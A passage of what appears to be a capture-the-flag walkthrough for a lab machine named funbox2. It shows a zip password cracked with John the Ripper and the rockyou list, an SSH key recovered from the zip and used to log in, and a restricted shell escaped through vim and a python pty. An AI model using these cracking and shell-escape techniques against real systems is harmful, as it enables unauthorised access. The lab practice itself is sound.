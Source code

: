 ```bash
226 Transfer complete
1477 bytes received in 00:00 (21.04 KiB/s)
ftp> 
```

### zip

```bash
zip2john tom.zip > tom.hash
john tom.hash -w=/usr/share/wordlists/rockyou.txt
john tom.hash

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
iubire           (tom.zip/id_rsa)     
1g 0:00:00:00 DONE 2/3 (2024-01-28 22:54) 100.0g/s 5509Kp/s 5509Kc/s 5509KC/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

john tom.hash --show
tom.zip/id_rsa:iubire:id_rsa:tom.zip::tom.zip
1 password hash cracked, 0 left
```

### ssh

```bash
ssh -i tom_id_rsa tom@172.16.33.30
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd /
-rbash: cd: restricted
```

#### rbash bypass

##### bash -i

##### vim

:set shell=/bin/bash
:shell

##### python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
